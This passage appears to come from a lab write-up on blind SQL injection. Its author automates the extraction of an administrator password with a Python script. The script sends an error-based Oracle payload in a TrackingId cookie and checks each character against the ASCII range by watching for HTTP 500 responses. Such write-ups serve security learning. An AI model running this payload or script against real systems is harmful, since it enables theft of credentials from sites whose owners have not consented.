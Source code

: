 I would have to re-arange the characters as i wasn't able to start with cycling the 2nd payload set :(.

## Automating with Python
I've automated that password dump with python, again with comparing the characters against the ASCII table. I could've made the Ascii range smaller but i did not. Multithreading would also be nice ;) but maybe some other time.

```py
import requests
import sys

requests.urllib3.disable_warnings()

def inject_func(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        session = requests.Session()
        session.verify = False
        target = "%s" % (ip)
        cookies = {"TrackingId":inj_str.replace("[CHAR]", str(j)),"session":"XtNTol6QXK5ZuBb7VkQDo9qoWGtXHxTP"} 
        proxies = {"http": "http://127.0.0.1:8080"}
        r = session.get(target,proxies=proxies,cookies=cookies,verify=False)
        status_code = r.status_code
        if status_code == 500:
            return j
    return 0

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target> " % sys.argv[0])
        print('(+) eg: %s 192.168.121.103' % sys.argv[0])
        sys.exit(-1)
    
    ip = sys.argv[1]

    out = "(+) Retrieving the password"
    print(out)

    for i in range(1, 25):
        if i != 0:
            injection_string = "xyz'||(SELECT CASE WHEN ASCII(SUBSTR(password,%d,1))=[CHAR] THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" % (i)
            extracted_char = chr(inject_func(ip, injection_string))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            break
    print("\n(+) done!")
if __name__ == "__main__":
    main()
```
